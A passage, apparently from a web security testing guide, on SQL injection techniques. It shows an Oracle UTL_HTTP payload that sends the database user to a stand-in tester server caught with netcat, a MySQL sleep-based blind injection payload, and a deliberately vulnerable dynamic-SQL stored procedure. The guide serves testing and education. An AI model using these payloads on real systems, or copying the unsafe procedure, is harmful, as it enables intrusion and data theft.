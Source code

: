 The malicious request would be:

    http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--

In this example, the tester is concatenating the value 10 with the result of the function UTL\_HTTP.request. This Oracle function will try to connect to ‘testerserver’ and make a HTTP GET request containing the return from the query “SELECT user FROM DUAL”. The tester can set up a webserver (e.g. Apache) or use the Netcat tool:

    /home/tester/nc –nLp 80
     
    GET /SCOTT HTTP/1.1
    Host: testerserver.com
    Connection: close

#### Time delay Exploitation technique

The time delay exploitation technique is very useful when the tester find a [Blind SQL Injection](Blind_SQL_Injection "wikilink") situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).

Consider the following SQL query:

    SELECT * FROM products WHERE id_product=$id_product

Consider also the request to a script who executes the query above:

    http://www.example.com/product.php?id=10

The malicious request would be (e.g. MySql 5.x):

    http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--

In this example the tester is checking whether the MySql version is 5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn’t need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds.

#### Stored Procedure Injection

When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.

Consider the following **SQL Server Stored Procedure:**

     
    Create procedure user_login @username varchar(20), @passwd varchar(20) 
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
